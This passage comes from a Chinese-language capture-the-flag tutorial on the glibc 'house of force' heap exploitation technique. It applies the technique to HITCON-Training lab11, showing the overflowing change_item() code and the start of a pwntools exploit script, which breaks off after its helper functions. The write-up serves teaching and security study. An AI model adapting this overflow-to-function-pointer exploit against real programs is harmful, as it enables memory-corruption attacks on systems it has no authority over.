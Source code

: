 malloc 执行完后 top chunk ptr 将会更新，并指向目标内存 target-2* SIZE_SZ 处，即 top chunk 已转移到目标内存地址。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020287_65486405.jpg)    
__由于计算 request_size 的大小需要知道堆内存中 top_old 的 ptr，所以得借助其他漏洞泄漏堆中 top chunk 的地址。或者可以将 target 指定在堆内存区域，那么通过本地调试可获得 top chunk 的地址，此时使用上式计算所得 request_size 相当于相对地址偏移，当堆基址改变后该值仍适用。__

## 3. 再次 malloc，返回目标内存
此时申请 chunk 将从目标内存处分配，最终成功返回目标内存 target，之后可对该内存写数据，以实现进一步的攻击。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020283_46291433.jpg)    

# 0x03 实例分析
下面以 [HITCON-Training](https://github.com/scwuaptx/HITCON-Training) 中的 lab11 为例说明 house of force 的利用过程，题目文件和利用脚本也可在 [Github](https://github.com/0x4C43/Linux-Exploit/tree/master/heap_house-of-force) 中下载。

## 1. 漏洞
程序中在修改 item 时调用 change_item() 函数，name 的长度由用户指定，并且没有进行检查。输入过长字符串到 name 中将会导致堆溢出，可覆盖 top chunk。
```c++
void change_item(){
    ...
    if(itemlist[index].name){
        printf("Please enter the length of item name:");
        read(0,lengthbuf,8);
        length = atoi(lengthbuf);
        printf("Please enter the new name of the item:");
        readsize = read(0,itemlist[index].name,length);   // overflow
        *(itemlist[index].name + readsize) = '\x00';
    }
    ...
```

## 2. 利用脚本
### 1）利用思路
利用 house of force 使得 top chunk 转移到 box 结构体所在内存处，使得下次申请内存时从该地址开始进行分配，控制该内存块后可修改 box 结构体中的函数指针为 magic 函数地址；最后调用 goobye_message 函数时就跳转到 magic 函数执行，从而输出 flag。

### 2）利用脚本
利用脚本如下：
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug'
r = process('./bamboobox')

def additem(length,name):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil("name:")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)
def modify(idx,length,name):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(str(length))
```